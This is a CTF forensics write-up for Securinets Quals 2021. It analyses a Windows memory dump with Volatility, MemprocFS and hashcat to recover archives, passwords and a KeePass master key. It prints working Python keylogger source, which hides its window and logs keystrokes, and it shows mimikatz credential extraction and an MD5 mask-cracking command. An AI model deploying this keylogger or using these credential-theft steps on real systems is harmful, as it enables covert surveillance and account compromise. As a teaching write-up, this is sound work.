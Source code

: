 ```yaml
---
title: KarDi Bee X - Securinets Quals 2021
date: 2021-03-22 15:54:49
author: g4rud4
author_url: https://twitter.com/NihithNihi
categories:
 - Forensics
 - Memory
tags:
 - Securinets Quals
 - Volatility
 - Windows Memory Analysis
---
```


**tl;dr**

+ File recovery from the memory dump
+ Environment variables analysis.
+ RAR and Zip password cracking.
+ Cracking Windows user password hash.
+ Extracting Keepass Master Password from keystrokes of logged data.

<!--more-->

**Challenge Points**: 988
**No. of solves**: 7
**Solved by**: [g4rud4](https://twitter.com/NihithNihi), [stuxn3t](https://twitter.com/_abhiramkumar), [f4lc0n](https://twitter.com/theevilsyn), [d3liri0us](https://twitter.com/d3liri0us_)

## Description

![description](description.png)

**Challenge File:** You can download the file [here](https://drive.google.com/file/d/1ppAvhaxKijEm1JGtZ_3v_SB3Bz0ZpH1G/view?usp=sharing/).

## Initial Analysis

We are given a **Windows 7** memory dump. Let us see what all processes are running in the system. 

```bash
$ volatility --plugins=volatility-plugins -f memory.raw --profile=Win7SP1x64 pslist
```

![pslist](pslist.png)

We observe `cmd.exe`, `notepad.exe` & `firefox.exe` are running.

## Listing the command prompt history

Let us use the `cmdscan` plugin to check if any suspicious commands were executed.

```bash
$ volatility --plugins=/home/g4rud4/volatility-plugins -f memory.raw --profile=Win7SP1x64 cmdscan
```

![cmdscan](cmdscan.png)

We can see `env` and traverse through Documents and Downloads.

## Listing out environmental variables

Let us use the `envars` plugin to check if any suspicious environmental variables were added.

```bash
$ volatility --plugins=/home/g4rud4/volatility-plugins -f memory.raw --profile=Win7SP1x64 envars
```

![envars](envars.png)

We observe an environmental variable `winrar_pswd` being added.

## Listing out files from Documents and Downloads

Let us use the `filescan` plugin and check the files present in the Documents and Downloads folders.

```bash
$ volatility --plugins=/home/g4rud4/volatility-plugins -f memory.raw --profile=Win7SP1x64 filescan | grep 'Documents\|Downloads'
```

![filescan](filescan.png)

We observe 2 archives and a python script. Let us extract them and check out the contents.

### Extracting files present in filescan

As the offsets of those files are `0x000000007e4ef450`, `0x000000007e57f3e0`, `0x000000007e5c4070`, Let us use the `dumpfiles` plugin to dump the files from memory.

Both the archives are password protected and the python script is a keylogger.

As we already got the password for the RAR file, while analyzing environmental variables. On using it, we got a Keepass KDBX file. Now we need to find the Keepass Master Password.

### Keylogger Script Analysis

As we extracted the keylogger python script, let us analyze it.

```py
import pynput
from zipfile import ZipFile
from pynput.keyboard import Key, Listener

keys = []

def hide():
    import win32console,win32gui
    window = win32console.GetConsoleWindow()
    win32gui.ShowWindow(window,0)
    return True

def on_press(key):
    keys.append(key)
    write_file(keys)

def write_file(keys):
    with open("C:\Users\Semah\Documents\bm90IG5lZWQgdG8gZGVjb2RlIG1l\aSdtIGp1c3QgYSB0cm9sbA==\ZXh0cmEgZmlsZQ==\bG9ncw==", 'w') as f:
        for key in keys:
            k = str(key).replace("'", "")
            f.write(k+' ')

def on_release(key):
    if key == Key.esc:
        zipObj = ZipFile('malmalmal.zip', 'w')
        zipObj.write('C:\Users\Semah\Documents\bm90IG5lZWQgdG8gZGVjb2RlIG1l\aSdtIGp1c3QgYSB0cm9sbA==\ZXh0cmEgZmlsZQ==\bG9ncw==')
        zipObj.close()
        return False


with Listener(on_press = on_press,
              on_release = on_release) as listener:
    listener.join()
```

We observe that all the keystrokes are being stored in the `bG9ncw==` file and then that file is being written to `malmalmal.zip`, and this zip file is password protected.

## Extracting the password of the zip file

The description says the attacker changed the user password and used it to protect a secret file. So let us use the `mimikatz` plugin and extract the user password.

```bash
$ volatility --plugins=/home/g4rud4/volatility-plugins -f memory.raw --profile=Win7SP1x64 mimikatz
```

![mimikatz](mimikatz.png)

We observe a hash of length 32 bytes probably MD5, as his password. But none of the hash-cracking websites are cracking it. So let us see if the attacker had set any password hint. Let us fire-up `MemprocFS` and get the user-password hint registry key value. Generally it is stored at `SAM\Domains\Account\Users\<F_Value>\UserPasswordHint`. Using MemprocFS we can easily traverse registry keys.

![userpasswordhint](userpasswordhint.png)

We observe a hint saying `it's easy to get, all you have to do is crack it, md5 3chars+4numbers+you_rule_here`

### Cracking User password hash

We can use `hashcat` to crack this hash.

```bash
$ hashcat -a 3 -m 0 --force 'a3af05e30feb0ceec23359a2204e2991' '?l?l?l?d?d?d?dyou_rule_here'
```

![hashcat](hashcat.png)
On executing this command we got the result as `sba2021you_rule_here`.

### Retrieving the Keylogger data

As we got the user password, let us use it and extract the contents of the zip file. On using that password we got the keystrokes.

```text
Key.shift H e l l o Key.space s i r , Key.enter Key.shift I Key.space h a v e Key.space c h a n g e d Key.space t h e Key.space p w d Key.space o f Key.space t h e Key.space k p Key.space b e c a s u Key.backspace Key.backspace u s e Key.space i Key.space t h n k Key.space i "" m Key.space u n d e r Key.space a t t a c k , Key.space t h e Key.space n e w Key.space p w d Key.space i s Key.space : Key.space Key.enter <104> Key.shift z n q Key.shift w <99> Key.shift h Key.shift o Key.shift c Key.shift d f Key.shift m <101> Key.backspace <102> Key.shift w i u q à Key.backspace q Key.backspace a Key.shift o Key.shift b Key.enter Key.shift B e s t Key.space r e g a r d s , Key.enter Key.shift S e m a h Key.shift B A Key.esc 
```

Changing it to the human-readable text we got:

```text
Hello sir,
I have changed the pwd of the kp because i thnk i""m under attack, the new pwd is : 
<104>ZnqW<99>HOCDfM<102>WiuqaOB
Best regards,
Semah BA
```

In the above text, he is referring to the KeePass master password. In the description author provided `<97> = 1 <98> = 2 ...` and on changing that in the password we got `8ZnqW3HOCDfM6WiuqaOB`.

## Retrieving Flag.

Now we get the Keepass Master Password, let us see what all passwords are stored in the kdbx file.

![keepass](keepass.png)

We found an entry for Pastebin's password. 

As `firefox.exe` is running, the user might have opened an encrypted Pastebin link. He might have copy-pasted the URL, So Let us use the `clipboard` plugin and check the user's clipboard.

![clipboard](clipboard.png)

As we can see a defuse.ca link(https://defuse.ca/b/wrCi00bPb8eDf9E8b9Iqyx), On opening it and entering the password(`LQlhH481mqpAor4Faroi`) we got from kdbx, we got the flag.

![flag](flag.png)

{% admonition note Flag %}
Securinets{long_way_but_made_it_this_far_gj_!!}
{% endadmonition %}
